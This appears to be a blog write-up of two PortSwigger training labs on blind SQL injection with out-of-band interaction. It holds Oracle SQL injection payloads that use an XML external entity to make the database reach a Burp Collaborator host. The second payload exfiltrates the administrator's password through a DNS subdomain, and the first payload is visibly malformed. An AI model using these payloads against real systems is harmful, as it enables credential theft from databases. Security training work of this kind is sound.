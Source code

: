 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, we are going to exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator, first we need professional burp to perform this, we right-click on the burp button on the top left and select burp client then click on copy to copy the dns url, after doing that we now insert the dns url into our payload:

we use the following payload:

```sql
UNION SELECT EXTRACTVALUE(;xmltype('<xml version="1.o" encoding="UTF-8;><!DOCTYPE root [ <!ENTITY  remote SYSTEM http://{burp collaborator id here},'/1') FROM dual--
```

What the above injection query does is to make the sql to execute the xml code which tells the system to use root to check our burp collaborator dns url

We sent that request to the server:

![1689924352388.png](https://blog.cyb3rguru.tech/posts/portswigger/SQL/images/1689924352388.png)

Response from the collaborator client, we could see that our dns url was pinged with 4 responses:

![1689924405735.png](https://blog.cyb3rguru.tech/posts/portswigger/SQL/images/1689924405735.png)



# Lab: [Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) with out-of-band data exfiltration


This lab contains a blind SQL injection vulnerability. The
application uses a tracking cookie for analytics, and performs a SQL
query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

 To solve the lab, log in as the `administrator` user.

From our new-found trick in the previous lab we could ping our DNS server with the admin password, all we have to do is to append the queried password into the subdomain of the dns url.

Below is the used payload:

```sql
UNION SELECT EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||"{burp collaborator url here}/">+%25+remote%3b]>'),'/1')+FROM+dual--;
```
